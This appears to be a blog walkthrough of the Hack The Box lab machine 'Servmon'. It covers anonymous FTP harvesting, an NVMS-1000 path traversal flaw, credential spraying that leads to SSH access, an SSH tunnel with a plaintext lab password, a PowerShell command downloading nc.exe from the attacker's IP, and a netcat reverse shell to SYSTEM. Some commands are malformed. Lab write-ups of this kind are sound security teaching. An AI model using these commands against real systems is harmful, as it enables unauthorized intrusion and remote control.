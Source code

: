 ```yaml
---

title: "Servmon HTB"
date: 2024-08-07 20:17:41 +0800
categories: [Servmon, Medium]
tags: [Servmon, Easy-Level, Windows, HTB Walkthrough]

---
```




![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Iz1Wlacvl_RhOJfLZLTWxQ.png)
Un-Important Intro:
Now now, Earlier with my first write up. I’ve written a walkthrough on the Retired machine “devel”. I have talked about how anonymous FTP login had been helpful with uploading the msfvenom crafted payload into web IIS. we have privilege escalation.
This walkthrough can be a follow-up for those willing to learn Windows privilege escalation. Feel free to check the “devel” walkthrough here.
Recon results:
Nmap scan: anonymous FTP login, open SSH logins, and there is an http web server running which is NVMS 1000 web server.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*I32Ik5tLAIiGi-4MZnGM-Q.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*tMqLl69A-0Wj-Q4N0fYAbg.png)
Enumeration Begin:
//80 HTTP — web server — { Hosting NVMS — 1000 (Network Surveillance Management Software) instance) Which is found vulnerable to LFI.}
You can normally search for this vulnerability to confirm through searchsploit nvms 1000 (or) download the payload from exploit db.
From Recon.
//21 - FTP login
A cool one-liner hack I have found online to grab files from an anonymous FTP login wget -r ftp://anonymous:@10.10.10.184
If we search for NVMS vulnerabilities through searchsploit or metasploit we can find there is a LFI Vulnerability on this machine.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Zi6VTnC3OxbDw3UdY4403A.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*yOr4qCrVFfdzpKf8YvjjMQ.png)
Overall Information we got.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*ya2NkDyaSttiEZBjsO_05w.png)
Using this information. as we know users: Nathan & Nadine / Passwords with these possibilities, we can try either smb_login Metasploit or the crackmapexec.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*hL2JCiQmODwPQk8Ginw0Qw.png)
Now, there is a successful login. let’s try it out.
Unluckily smb login doesn’t work. So, I tried ssh_login with same credentials.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*hU29UJHX94Ux6xz5KPqdNg.png)
And Tada!! we got the user flag.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*l7uURxQj7oUM_slq6ZLzkg.png)
If we try to access the Administrator account. Understand this is not the end.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*nSw-_MeL8HrXdGg8T7mENw.gif)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*w0BecdMnX8pc0TOcvMyerQ.png)
This can be really confusing, I kindly request go along with implementing the process to get a complete understanding of what’s happened.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*31n9KJ_xeXXVEyqSyPI_aQ.gif)
Background Concept SSH Tunneling:
For the base theory refer to this YouTube video. which I found helpful for understanding why ssh tunnel is used. To understand how we can use this method for our example refer to the following image.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*7pe1D-9ICdzeLk5qLNIx3A.png)
Fast forward to this,
sshpass -p “L1k3B1gBut7s@W0rk” -L 8443: localhost:8443 ssh [email protected]
Started a Python server for file transfer between linux and Windows.
Linux: python3 -m http.server -b
Windows: powershell -c (New-Object Net.WebClient).DownloadFile(‘http://10.10.14.77:8000/nc.exe','nc.e
xe’)
you can easily spot the nc.exe file in /usr/share/seclists/Web-Shells/FuzzDB if you’re using kali linux.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*txbw-Q3T9rK2Njau5stHPA.png)
There now as we got netcat listener on the victim. We just have to ring a bell to it.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*dugDx9tDlq_dvEBudb5sWQ.png)
2. There is our shell on the machine, now we need to
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*fqoIXWWYTq004U1RTv1l5Q.png)
3. run a Netcat listener on our attacking machine.
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*bSa8Kp_fYGEXSyLvijlcFQ.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*I0aNyKP68107LZXM9tKA9w.png)
Hell, yeah we got the root flag. The machine is Pwned!!
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*pPAq7i_wySskqc_85zB54Q.png)
Easy right??
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*cTRJNM4ehX9Gf3QK8Heijg.gif)
In-Summary:
Upon getting Nmap scan results from the servmon.
Mind Map:
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*zikNtK4rF-p8QkixZMucMg.png)
![Untitled](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*8jcIGXJen_E0GY5W23sQFA.png)
Appreciate If you like my approach, Follow for more.